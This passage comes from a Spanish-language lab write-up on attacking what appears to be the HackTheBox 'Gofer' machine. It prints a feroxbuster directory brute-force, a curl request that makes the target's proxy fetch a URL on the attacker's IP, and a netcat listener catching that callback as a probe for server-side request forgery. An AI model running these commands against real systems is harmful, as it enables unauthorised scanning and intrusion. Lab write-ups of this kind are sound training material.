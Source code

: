 ```shell
feroxbuster -u http://proxy.gofer.htb -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -m POST,PUT,OPTIONS -x php
```

¡Y encontramos algo!
![Write-up Image](images/Screenshot_6.png)


```shell
$ curl -X POST http://proxy.gofer.htb/index.php && echo
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

Si nos ponemos en escucha con `netcat` por el puerto 8081 y con el parámetro `url` ponemos nuestra dirección IP de atacante y especificamos el puerto 8081...

```shell
$ curl -X POST 'http://proxy.gofer.htb/index.php?url=http://10.10.14.133:8081' && echo
```

```shell
$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.133] from (UNKNOWN) [10.129.236.125] 51384
GET / HTTP/1.1
Host: 10.10.14.133:8081
Accept: */*
```

En lo primero que pensé es en un Server Side Request Forgery pero vamos a probar algo mas obvio.

Quizás esto sea un proxy que esté alojado en un contenedor o algo así y mediante el parámetro URL carga el contenido de una página web desde el contendor y lo interpreta. Podríamos probar a ver si interpreta código PHP.

Y parece que no.
![Write-up Image](images/Screenshot_7.png)
